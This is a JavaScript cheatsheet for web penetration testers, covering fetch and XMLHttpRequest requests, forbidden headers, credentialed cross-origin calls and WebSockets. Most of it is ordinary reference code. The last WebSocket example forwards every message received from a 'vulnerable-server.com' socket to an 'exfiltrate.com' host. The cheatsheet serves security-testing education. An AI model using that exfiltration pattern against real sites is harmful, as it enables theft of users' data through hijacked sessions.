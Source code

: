 ```yaml
---
title: Javascript
description: Javascript cheatsheets for Web pentester.
---
```


# Javascript cheatsheets for Web pentester

## Making HTTP Requests

List of forbidden headers : `Accept-Charset`, `Accept-Encoding`, `Access-Control-Request-Headers`, `Access-Control-Request-Method`, `Connection`, `Content-Length`, `Cookie`, `Cookie2`, `Date`, `DNT`, `Expect`, `Host`, `Keep-Alive`, `Origin`, `Referer`, `TE`, `Trailer`, `Transfer-Encoding`, `Upgrade`, `Via`.

### Using fetch

Fetch API is not supported by all browsers, you can detect it by using this snippet :

```js
if (window.fetch) {
  // run my fetch request here
} else {
  // do something with XMLHttpRequest?
}
```

Exemple of a synchronous GET request :

```js
let response = await fetch('https://api.example.com/users');

if (response.ok) { // status code : 2XX
  let json = await response.json();
} else {
  console.log("Error: " + response.status);
}
```

Example of an asynchronous POST request sending and reiceiving JSON data :

```js
fetch('https://api.example.com/users', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/json'
	},
	body: JSON.stringify({
		username: "john",
		email: "john@example.com"
	})
})
.then(response => response.json())
.then(data => console.log(data))
.catch(err => console.log(err))
```

Send a request with credentials included on both same-origin and cross-origin calls : `credentials: 'include'`.

> More information on [javascript.info](https://javascript.info/fetch) and [developer.mozilla.org](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch).

### Using XHR (XMLHttpRequest)

Synchronous HTTP GET request :

```js
let xhr = new XMLHttpRequest();
xhr.open('GET', 'https://developer.mozilla.org/', false);
xhr.send();

if (xhr.status === 200) {
  console.log(xhr.responseText);
}
```

Asynchronous HTTP GET request :

```js
let xhr = new XMLHttpRequest();
xhr.open('GET', 'http://example.com/index.php?param=1');

xhr.onload = function() {
  if (xhr.status !== 200) {
    console.log(`Error ${xhr.status}`);
  } else {
    console.log(xhr.response);
  }
};

xhr.send();
```

Asynchronous HTTP POST request with JSON data :

```js
const data = {
    "id": "17",
    "email": "john@example.com"
};

let xhr = new XMLHttpRequest();

xhr.open('POST', '/api/users');
xhr.setRequestHeader('Content-Type', 'application/json');

xhr.onload = function() {
  if (xhr.status !== 200) {
    console.log(`Error ${xhr.status}`);
  } else {
    console.log(xhr.response);
  }
};

xhr.send(JSON.stringify(data));
```

!!! info
  The XMLHttpRequest.withCredentials (`xhr.withCredentials = true;`) property is a boolean value that indicates whether or not cross-site Access-Control requests should be made using credentials such as cookies, authorization headers or TLS client certificates. Setting withCredentials has no effect on same-site requests.

> More information on [developer.mozilla.org](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest).

## WebSocket

### Receiving and sending data

```js
let ws = new WebSocket("wss://vulnerable-server.com/chat");

ws.onopen = (event) => {
  ws.send("READY")
};

ws.onmessage = (event) => {
  fetch('https://exfiltrate.com', {
  	method: 'POST',
	mode: 'no-cors',
	headers: {
		'Content-Type': 'application/json'
	},
  	body: event.data
  });
}
```